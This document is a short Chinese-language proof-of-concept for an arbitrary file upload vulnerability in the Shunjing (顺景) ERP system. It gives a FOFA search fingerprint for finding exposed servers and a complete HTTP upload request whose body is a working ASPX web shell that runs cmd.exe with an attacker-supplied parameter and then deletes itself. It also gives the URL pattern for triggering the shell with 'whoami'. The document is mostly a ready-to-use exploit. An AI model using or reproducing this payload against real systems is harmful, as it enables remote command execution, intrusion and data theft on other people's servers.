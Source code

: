 # 顺景ERP管理系统FileUpload存在任意文件上传漏洞

顺景ERP管理系统FileUpload存在任意文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
body="/api/DBRecord/getDBRecords"
```

## poc

```javascript
POST /api/FileUpload/Upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/png

<%@ Page Language="Jscript" validateRequest="false" %><%var c=new System.Diagnostics.ProcessStartInfo("cmd");var e=new System.Diagnostics.Process();var out:System.IO.StreamReader,EI:System.IO.StreamReader;c.UseShellExecute=false;c.RedirectStandardOutput=true;c.RedirectStandardError=true;e.StartInfo=c;c.Arguments="/c " + Request.Item["cmd"];e.Start();out=e.StandardOutput;EI=e.StandardError;e.Close();Response.Write(out.ReadToEnd() + EI.ReadToEnd());System.IO.File.Delete(Request.PhysicalPath);Response.End();%>
------WebKitFormBoundary7yyQ5XLHOn6WZ6MT--
```

![image-20241106224458205](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411062244260.png)

文件路径`/UpFiles/GUID值.aspx?cmd=whoami`